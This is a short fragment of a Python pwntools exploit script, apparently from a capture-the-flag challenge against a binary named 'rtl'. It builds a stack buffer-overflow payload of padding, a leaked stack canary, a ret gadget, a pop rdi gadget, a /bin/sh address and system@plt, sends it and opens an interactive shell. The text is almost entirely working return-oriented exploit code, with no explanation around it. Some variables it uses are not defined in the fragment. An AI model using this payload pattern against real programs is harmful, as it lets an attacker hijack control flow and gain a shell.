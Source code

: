``` python
pop_rdi = 0x0000000000400853 
# ret = 0 # ROPgadget --binary=./rtl | grep ": ret"
ret = 0x0000000000400596

payload = b'A'*0x38 + p64(cnry) + b'B'*0x08
payload += p64(ret) # align stack to prevent errors caused by movaps
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_plt)

pause()
p.sendafter(b'Buf: ', payload)

p.interactive()


```